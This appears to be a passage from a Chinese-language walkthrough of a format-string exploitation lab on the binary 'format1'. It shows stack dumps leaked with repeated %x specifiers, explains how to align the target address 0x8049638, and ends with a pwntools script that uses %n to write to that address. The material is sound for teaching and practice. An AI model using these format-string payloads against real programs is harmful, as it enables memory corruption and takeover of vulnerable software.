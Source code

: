 ```diff
ffffcc14 f7fb7000 0 ffffcc68 0 f7ffd000 0 f7fb7000 
f7fb7000 0 b0377529 f29db339 0 0 0 2 8048340 0 f7fe7ad4 
f7fe22d0 f7ffd000 2 8048340 0 8048361 804841c 2 
ffffcc84 8048450 8048440 f7fe22d0 ffffcc7c 1c 2 
ffffcdb2 ffffcdbc 0 ffffcfa8 ffffcfb8 ffffcfcf ffffcfff 
ffffd014 ffffd054 ffffd061 ffffd078 ffffd088 ffffd095 
ffffd0b4 ffffd696 ffffd6b8 ffffd6cc ffffd6ec ffffd6f6 
ffffd6fe ffffd71f ffffd760 ffffdf96 ffffdfa6 ffffdfdb 0 
20 f7fcf540 21 f7fcf000 10 178bfbff 6 1000 11 64 3 
8048034 4 20 5 7 7 f7fd1000 8 0 9 8048340 b 3e8 c 3e8 d 
3e8 e 3e8 17 0 19 ffffcd9b 1a 2 1f ffffdfee f ffffcdab 
0 0 0 be000000 4a36de81 fa6b27d0 2e834aba 69c92780 
363836 2f2e0000 6d726f66 317461 41414141 41414141 
+41414141 4963841 42424208 25207825 78252078 20782520 
25207825 78252078 20782520 25207825 78252078 20782520 
25207825 78252078 20782520 25207825 78252078 20782520 
25207825 78252078 20782520 25207825 78252078 20782520 
25207825
```
上面是一個我們輸入的記憶體地址沒有在 stack 中對齊的狀況，我們輸入的記憶體地址為 `"\x38\x96\x04\x08"`，在 stack 中應該為 `8049638`，但是在上面變成 `4963841 42424208`，`08` 跑到下一個 word，在使用 `%x` 讀取時，我們便會讀取到 `4963841`，而非 `8049638`。下面為一個有對齊的例子
```py
payload = "AAAAAAAAAAAAA" + address + 'BBB'+"%x " * 156
```
```diff
AAAAAAAAAAAAA8\x96\x04\x08BBB804960c ffffcbe8 8048469 
f7ffd000 f7fb7000 ffffcbe8 8048435 ffffcdbf 0 804845b 0 
f7fb7000 f7fb7000 0 f7de9ed5 2 ffffcc84 ffffcc90 
ffffcc14 f7fb7000 0 ffffcc68 0 f7ffd000 0 f7fb7000 
f7fb7000 0 be7a93d2 fcd055c2 0 0 0 2 8048340 0 f7fe7ad4 
f7fe22d0 f7ffd000 2 8048340 0 8048361 804841c 2 
ffffcc84 8048450 8048440 f7fe22d0 ffffcc7c 1c 2 
ffffcdb5 ffffcdbf 0 ffffcfa8 ffffcfb8 ffffcfcf ffffcfff 
ffffd014 ffffd054 ffffd061 ffffd078 ffffd088 ffffd095 
ffffd0b4 ffffd696 ffffd6b8 ffffd6cc ffffd6ec ffffd6f6 
ffffd6fe ffffd71f ffffd760 ffffdf96 ffffdfa6 ffffdfdb 0 
20 f7fcf540 21 f7fcf000 10 178bfbff 6 1000 11 64 3 
8048034 4 20 5 7 7 f7fd1000 8 0 9 8048340 b 3e8 c 3e8 d 
3e8 e 3e8 17 0 19 ffffcd9b 1a 2 1f ffffdfee f ffffcdab 
0 0 0 24000000 b9ff6e2c 8716a0f6 6fd833cc 69cb28aa 
363836 0 662f2e00 616d726f 41003174 41414141 41414141 
+41414141 8049638 25424242 78252078 20782520 25207825 
78252078 20782520 25207825 78252078 20782520 25207825 
78252078 20782520 25207825 78252078 20782520 25207825 
78252078 20782520 25207825 78252078 20782520
```
可以看到 `8049638` 成功在 stack 中對齊了，接下來我們要不斷調整 `%x` 的數量，直到我們剛好印出的最後一個記憶體地址，就是 `8049638`。

以下為嘗試使用 `201` 和 `202` 的結果
```
201:
662f2e00 616d726f 41003174 41414141
202:
726f662f 3174616d 41414100 41414141 8049638
```
這邊我們推測，`201` 個 `%x` 後，也就是印出了 `201` 個 stack 中 word size 的內容，下一個記憶體地址便是 `8049638` 了，因此我們如果在 `"%x" * 201` 加上 `%n`，我們修改到的，便是 `0x8049638` 這個記憶體地址，我們使用以下 python 腳本進行驗證
```py
from pwn import *

address = "\x38\x96\x04\x08"
payload = "AAAAAAA" + address + 'BBBBBB' +"%x " * 201 + "%n"

p = process(["./format1", payload])
output = p.recvall()
```